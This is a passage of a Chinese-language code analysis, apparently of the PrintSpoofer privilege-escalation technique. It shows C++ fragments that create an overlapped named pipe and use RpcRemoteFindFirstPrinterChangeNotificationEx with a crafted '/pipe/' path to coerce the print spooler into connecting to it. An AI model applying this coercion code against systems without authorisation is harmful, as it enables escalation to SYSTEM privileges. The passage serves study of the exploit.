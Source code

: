 `CreateNamedPipe`的签名

```c++
WINBASEAPI
HANDLE
WINAPI
CreateNamedPipeW(
    _In_ LPCWSTR lpName,
    _In_ DWORD dwOpenMode,
    _In_ DWORD dwPipeMode,
    _In_ DWORD nMaxInstances,
    _In_ DWORD nOutBufferSize,
    _In_ DWORD nInBufferSize,
    _In_ DWORD nDefaultTimeOut,
    _In_opt_ LPSECURITY_ATTRIBUTES lpSecurityAttributes
    );
```

`ConnectSpoolNamedPipe`启动了named pipe server的accept，创建event并传递。正常情况下`ConnectNamedPipe`是个阻塞操作，但前文设置了OVERLAPPED I/O，故会直接返回，操作是否完成直接查询event即可

```c++
OVERLAPPED ol = { 0 };
hPipeEvent = CreateEvent(NULL, TRUE, FALSE, NULL);
ol.hEvent = hPipeEvent;
ConnectNamedPipe(hPipe, &ol)
```

#### TriggerNamedPipeConnection

`TriggerNamedPipeConnection`创建新线程，调用`RpcRemoteFindFirstPrinterChangeNotificationEx`连接named pipe

```c++
CreateThread(NULL, 0, TriggerNamedPipeConnectionThread, pwszPipeName, 0, &dwThreadId);

// TriggerNamedPipeConnectionThread
StringCchPrintf(pwszTargetServer, MAX_PATH, L"\\\\%ws", pwszComputerName);
StringCchPrintf(pwszCaptureServer, MAX_PATH, L"\\\\%ws/pipe/%ws", pwszComputerName, pwszPipeName);

RpcTryExcept
{
    if (RpcOpenPrinter(pwszTargetServer, &hPrinter, NULL, &devmodeContainer, 0) == RPC_S_OK)
    {
        RpcRemoteFindFirstPrinterChangeNotificationEx(hPrinter, PRINTER_CHANGE_ADD_JOB, 0, pwszCaptureServer, 0, NULL);
        RpcClosePrinter(&hPrinter);
    }
}
RpcExcept(EXCEPTION_EXECUTE_HANDLER);
{
    // Expect RPC_S_SERVER_UNAVAILABLE
}
RpcEndExcept;
```
